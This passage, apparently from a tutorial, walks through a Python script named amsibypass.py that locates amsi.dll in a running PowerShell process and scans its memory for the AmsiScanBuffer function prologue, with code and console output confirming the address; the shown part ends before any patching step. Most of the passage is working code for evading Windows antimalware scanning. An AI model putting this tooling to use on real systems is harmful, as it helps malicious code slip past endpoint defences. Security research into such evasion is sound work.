 ```python
def readBuffer(handle, baseAddress, AmsiScanBuffer):
    KERNEL32.ReadProcessMemory.argtypes = [c_ulong, c_void_p, c_void_p, c_ulong, c_int]
    while True:
        lpBuffer = create_string_buffer(b'', len(AmsiScanBuffer))
        nBytes = c_int(0)
        KERNEL32.ReadProcessMemory(handle, baseAddress, lpBuffer, len(lpBuffer), nBytes)
        if lpBuffer.value == AmsiScanBuffer:
            return baseAddress
        else:
            baseAddress += 1
```

The function will take the handle of the `powershell.exe` process,
the base address of `amsi.dll`
and the `AmsiScanBuffer` function prologue opcodes
and will increment the addresses by 1
until the pattern is matched.

The relevant part of the script was updated:

```python
...
snapshotHandle = KERNEL32.CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pid)
ret = KERNEL32.Module32First(snapshotHandle, pointer(me32))
while ret:
    if me32.szModule == b'amsi.dll':
        print(f'[+] Found base address of {me32.szModule.decode()}: {hex(me32.modBaseAddr)}')
        KERNEL32.CloseHandle(snapshotHandle)
        amsiDllBaseAddress =  me32.modBaseAddr
        break
    else:
        ret = KERNEL32.Module32Next(snapshotHandle , pointer(me32))
AmsiScanBuffer = (
    b'\x4c\x8b\xdc' +       # mov r11,rsp
    b'\x49\x89\x5b\x08' +   # mov qword ptr [r11+8],rbx
    b'\x49\x89\x6b\x10' +   # mov qword ptr [r11+10h],rbp
    b'\x49\x89\x73\x18' +   # mov qword ptr [r11+18h],rsi
    b'\x57' +               # push rdi
    b'\x41\x56' +           # push r14
    b'\x41\x57' +           # push r15
    b'\x48\x83\xec\x70'     # sub rsp,70h
)
amsiScanBufferAddress = readBuffer(process_handle, amsiDllBaseAddress, AmsiScanBuffer)
print(f'[+] Address of AmsiScanBuffer found at {hex(amsiScanBufferAddress)}')
```

Let's check it:

```powershell
PS C:\Users\aroldan> python3 .\Documents\amsibypass.py
[+] Got process handle of PID powershell at 18760: 0x410
[+] Found base address of amsi.dll: 0x7ffd4c270000
[+] Address of AmsiScanBuffer found at 0x7ffd4c278260
```
